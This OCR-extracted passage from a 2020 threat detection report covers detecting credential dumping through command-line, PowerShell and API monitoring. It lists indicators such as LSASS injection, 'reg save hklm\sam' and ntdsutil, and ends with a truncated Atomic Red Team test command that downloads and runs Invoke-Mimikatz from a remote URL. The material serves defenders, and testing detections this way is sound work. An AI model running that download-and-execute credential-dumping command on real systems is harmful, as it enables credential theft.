 approach more effective.
Process command\-line parameters
Monitoring process command\-line parameters for known malicious CLI syntaxes may take some research and testing, but 
its also a reliable way to observe andor detect credential harvesting activity emanating from tools such as Mimikatz and 
Empire. In order for this data source to be used effectively, command lines must be specific and not overly generalized (i.e 
using only one command option filter).
PowerShell logs
Enabling and monitoring PowerShell logs for known malicious syntax can help to detect Credential Dumping activity as 
well. This is particularly useful for observing things such as Invoke\-Mimikatz and POWELIKS. At times when malicious 
binaries may not be observed via process monitoring, PowerShell logs may help detect activity reliant on PowerShell.
API monitoring
API monitoring is another good source to collect on if you want to observe Credential Dumping. The key to API monitoring 
is knowing what and who should be directly connecting to the domain controller (DC). Knowing what IP address, 
applications, and user accounts typically make API calls to the DC will help to reduce false positives and create more 
reliable detections to Credential Dumping activity, particularly for tools such as DCSync, Mimikatz, and PowerSploit.
Detection suggestionsIf youre interested in generating reliable detection coverage for Credential Dumping activity, youll want to consider 
monitoring for the following behaviors:
 
Unknown or known malicious processes injecting into LSASS
 
DC connections from unusual IP addresses associated with non\-standard or known compromised user accounts
 
reg.exe usage with command\-line reg save hklmsam
76
2020 Threat Detection Report
Testing
Start testing your defenses against Credential Dumping using Atomic Red Teaman open source testing framework of 
small, highly portable detection tests mapped to MITRE ATT\&CK.
 
The binary mimikatz.exe or references to Mimikatz arguments in the CLI
 
Use of ntdsutil ifm
Weeding out false positives
Many of the techniques and tools used for administrative purposes can also be used for malicious Credential Dumping 
activity. As such, monitoring of processes without CLI andor context can lead to a large number of false positives, 
particularly with processes such as adfind.exe, taskmgr.exe, ntdsutil.exe, reg.exe, vssadmin.exe, PowerShell, and 
adexplorer.exe.
77
2020 Threat Detection Report
Getting started
View Atomic tests for T1003: Credential Dumping. In most environments, these should be sufficient to generate a useful 
signal for defenders.Run this test on a Windows system using PowerShell:
powershell.exe IEX (New\-Object Net.
WebClient)
.DownloadString(http:
bit.ly
L3g1tCrad1e)
; Invoke\-Mimikatz \-DumpCr
Useful telemetry will include: